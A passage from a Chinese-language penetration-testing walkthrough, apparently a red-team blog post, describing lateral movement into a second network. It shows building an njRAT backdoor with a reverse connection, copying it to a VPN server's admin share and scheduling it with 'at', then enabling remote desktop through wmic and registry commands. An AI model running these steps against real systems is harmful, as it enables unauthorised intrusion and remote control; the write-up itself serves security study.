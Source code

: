 上传检测工具到服务器进系操作。当前网段存在的机子

**5.6 横行渗透第第二层网络**

在这台服务器上发现存在 vpn 连接拨入连接

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOYVljRPb6Et7nlsSlHcZt6icPNcdephTO078wQibdQ4QVGQPuCKaZHIuA/640?wx_fmt=png)

Vpn 服务器的 ip192.168.22.132 03server1

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOaLicticaYqkT9BVDa2ibMnnqrcV2dsRDUJeUOJKBRdrMUfFIUf3G7ZiajQ/640?wx_fmt=png)

**5.7 配置远控 njRAT v0.7d**

njRAT 是一款红队的著名的远控支持多种平台使用。

反向连接的 ip 和端口。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOtB1j20zoXUOp4nYpkOMREE6LNJz9qS9amlibwJwP6zXDEZRfqMmXOSA/640?wx_fmt=png)

设置成功后 build 即可生成 server 后门。

**5.8 获取 vpn 服务器权限**

```
copy Server.exe \\192.168.22.132\c$
at\\ 192.168.22.132 16:20:00 c:/Server.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOSvvm5dBaiaKoQiag5fHpjd4YdTpB0fT4tREj5jhJufmq5jKoia7Wwdgmg/640?wx_fmt=png)

上线

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOcDg8JPQGk7br7w8epq2NdWeD4nYgHCluDCWib6OgO2ZxKicZ7bwfQmUQ/640?wx_fmt=png)

**5.8.1 开启 3389 远程终端**

Wmic 开启

```
wmic path win32_terminalservicesetting where(__CLASS != "") call setallowtsconnections 1
```

**5.8.2 注册表开启 3389**

```
reg add"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

**5.8.3 终端远程连接 vpn 服务器拿下**  

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOJaq94A7cJnLP1RiayVJVRqSwIYQwEALt8tMAFTsjia4vMqLkRGuxnJEQ/640?wx_fmt=png)

**5.9 VPN 服务器信息收集**

**5.9.1 开放服务 DNS**

自带 dns 服务器发现现在两个域名
